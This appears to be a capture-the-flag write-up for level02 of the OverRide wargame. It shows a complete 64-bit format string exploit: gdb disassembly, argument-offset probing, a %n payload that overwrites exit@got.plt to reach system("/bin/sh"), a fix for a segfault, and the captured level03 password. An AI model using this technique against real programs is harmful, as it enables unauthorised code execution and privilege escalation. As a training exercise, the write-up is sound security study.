 Here, again it's a string format exploit, but this time, we don't have access to environment variables addresses :
>level02@OverRide:~$ gdb -q level02 
>Reading symbols from /home/users/level02/level02...(no debugging symbols found)...done.
>(gdb) b main
>Breakpoint 1 at 0x400818
>(gdb) r
>Starting program: /home/users/level02/level02 
>warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
>Breakpoint 1, 0x0000000000400818 in main ()
>(gdb) x/100x *environ
>Cannot access memory at address 0xffffffffffffe5b8

With a quick look at the main function, we realized that we could jump before the execution of `system("/bin/sh")`

>0x0000000000400a85 <+625>:	mov    $0x400d32,%edi
>0x0000000000400a8a <+630>:	callq  0x4006b0 <system@plt>

Our goal is to put `0x0000000000400a85` at a jump instruction.

>(gdb) disas exit
>Dump of assembler code for function exit@plt:
>0x0000000000400710 <+0>:	jmpq   *0x200b12(%rip)        # 0x601228 <exit@got.plt>
>0x0000000000400716 <+6>:	pushq  $0xa
>0x000000000040071b <+11>:	jmpq   0x400660
>End of assembler dump.

We first tried to overwrite the value of `0x200b12` but we couldn't make it work. We think that this address is stored inside a register, so we don't have the rights to overwrite here.
But looking into the comment of the same line, we see another address.

>(gdb) x/gx 0x601228
>0x601228 <exit@got.plt>:	0x0000000000400716

It looks like the `eip` of the `jmpq` so we tried to overwrite this one.
First, we need the decimal value of the targeted address. : `0x0000000000400a85 = 4196997`
We then find the index of the argument to use the string format exploit : (we use %p instead of %x that we used previously, because it appears that we have 64bits addresses here)

>level02@OverRide:~$ ( python -c 'print("%p " * 10)'; python -c 'print("AAAABBBB")'; cat ) | ./level02
>===== [ Secure Access System v1.0 ] =====
>/***************************************\
>| You must login to access this system. |
>\**************************************/
>--[ Username: --[ Password: *****************************************
>0x7fffffffe3d0 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe5c8 0x1f7ff9a08 0x4242424241414141 (nil) (nil)  does not have access!

>level02@OverRide:~$ ( python -c 'print("%8$p")'; python -c 'print("AAAABBBB")'; cat ) | ./level02
>===== [ Secure Access System v1.0 ] =====
>/***************************************\
>| You must login to access this system. |
>\**************************************/
>--[ Username: --[ Password: *****************************************
>0x4242424241414141 does not have access!

So now, we need to write the correct number inside the address:

```bash
( python -c 'print("%4196997x" + "%8$n")'; python -c 'print("\x28\x12\x60\x00")'; cat ) | ./level02
                                                                whoami
Segmentation fault (core dumped)
```

We got a segfault, strange.
We use `dmesg` to have more infos about this segfault :

```bash
[11031.533103] level02[3052]: segfault at a00601228 ip 00007ffff7a6827c sp 00007fffffffd2c0 error 6 in libc-2.15.so[7ffff7a1c000+1b4000]

```

Since it's 64bits addresses, when we put only 4 bytes, there is some leftovers that make the exploit writing on a bad address.
Let's fix this :

```bash
( python -c 'print("%4196997x" + "%8$n")'; python -c 'print("\x28\x12\x60\x00\x00\x00\x00\x00")'; cat ) | ./level02

         ffffe3d0 does not have access!
whoami
level03
cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

```

```bash
su level03
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
